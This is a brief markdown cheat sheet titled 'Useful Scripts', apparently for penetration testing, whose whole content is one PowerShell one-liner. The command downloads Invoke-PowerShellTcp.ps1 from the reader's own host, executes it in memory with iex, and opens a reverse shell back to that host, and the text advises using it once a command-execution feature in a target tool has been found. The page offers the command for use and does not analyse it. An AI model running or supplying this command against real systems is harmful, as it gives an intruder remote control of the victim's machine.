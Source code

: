 # Useful Scripts

## Powershell
- Find a feature of the tool that allows you to execute commands on the underlying system. When you find this feature, you can use this command to get the reverse shell on your machine and then run it:  
`powershell iex (New-Object Net.WebClient).DownloadString('http://your-ip:your-port/Invoke-PowerShellTcp.ps1');Invoke-PowerShellTcp -Reverse -IPAddress your-ip -Port your-port`  
